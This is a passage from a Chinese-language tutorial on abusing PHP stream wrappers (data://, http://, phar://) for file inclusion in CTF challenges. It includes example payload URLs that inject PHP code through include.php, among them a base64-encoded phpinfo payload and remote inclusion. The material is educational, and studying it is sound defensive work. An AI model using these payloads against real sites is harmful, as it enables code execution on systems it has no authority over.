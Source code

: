 1.  `data://text/plain,`
        
```
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
```

![](https://segmentfault.com/img/bVbrQBB)
        
2.  `data://text/plain;base64,`
        
```
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

![](https://segmentfault.com/img/bVbrQBD)
        

## `http:// & https://` 协议


*   **条件**：
    
    *   `allow_url_fopen`:on
    *   `allow_url_include` :on
*   **作用**：常规 URL 形式，允许通过 `HTTP 1.0` 的 GET方法，以只读访问文件或资源。CTF中通常用于远程包含。
*   **用法**：
    
    ```
    http://example.com
    http://example.com/file.php?var1=val1&var2=val2
    http://user:password@example.com
    https://example.com
    https://example.com/file.php?var1=val1&var2=val2
    https://user:password@example.com
    ```
    
*   **示例**：
    
    ```
    http://127.0.0.1/include.php?file=http://127.0.0.1/phpinfo.txt
    ```
    
    ![](https://segmentfault.com/img/bVbrQBP)
    

## `phar://` 协议

`phar://`协议与`zip://`类似，同样可以访问zip格式压缩包内容，在这里只给出一个示例：

```
http://127.0.0.1/include.php?file=phar://E:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt
```

![](https://segmentfault.com/img/bVbrQBX)

另外在 Black Hat 2018 大会上，研究人员公布了一款针对PHP应用程序的全新攻击技术：**phar://协议对象注入技术**。

因为该利用点需要满足一定的条件才能利用，可以参考下面这篇文章，里面的demo也非常详细，留作以后专门研究一下。

